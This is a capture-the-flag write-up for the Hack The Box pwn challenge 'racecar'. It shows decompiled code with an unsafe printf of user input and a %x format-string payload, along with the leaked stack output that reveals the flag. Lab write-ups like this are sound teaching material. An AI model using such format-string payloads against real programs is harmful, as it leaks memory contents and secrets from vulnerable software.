# racecar

## Challenge Details 

- **CTF:** Hack The Box
- **Category:** Pwn
- **Points:** 10

## Provided Materials

- `ELF 32-bit LSB pie executable`

## Solution

We need to beat the game. We can decompile the binary [here](https://dogbolt.org/):

```sh
if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    // WARNING: Subroutine does not return
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: \x1b[0m"
        );
    printf(__format);
```

The last line points to [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack).

Let's create the `flag.txt` local:

```
$ echo "AAAA" > flag.txt
```

Then run the program:

```sh
...
[+] You won the race!! You get 100 coins!                                                           
[+] Current coins: [169]                                                                            
                                                                                                    
[!] Do you have anything to say to the press after your big victory?                                
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x                           

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
57ffd200 170 5660edfa 2f 5 26 2 1 5660f96c 57ffd200 57ffd380 41414141 5660000a f7c53f75 4a917000 5660fd58 56611f8c ffdf5158 5660f38d 5660f540 57ffd1a0 2 4a917000 0
```

We can see, that our `flag.txt` starts from the 12th part *(41414141)*.

So once we conect to the server and win the game, we can get the flag:

```sh
...
[!] Do you have anything to say to the press after your big victory?
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
584de1c0 170 56595dfa a 7 26 2 1 5659696c 584de1c0 584de340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 7d213f cad79500 f7f743fc
```

Let's put it in [CyberChef](https://gchq.github.io/CyberChef/):

![flag](./flag.jpg)

## Final Flag

`HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}`

*Created by [bu19akov](https://github.com/bu19akov)*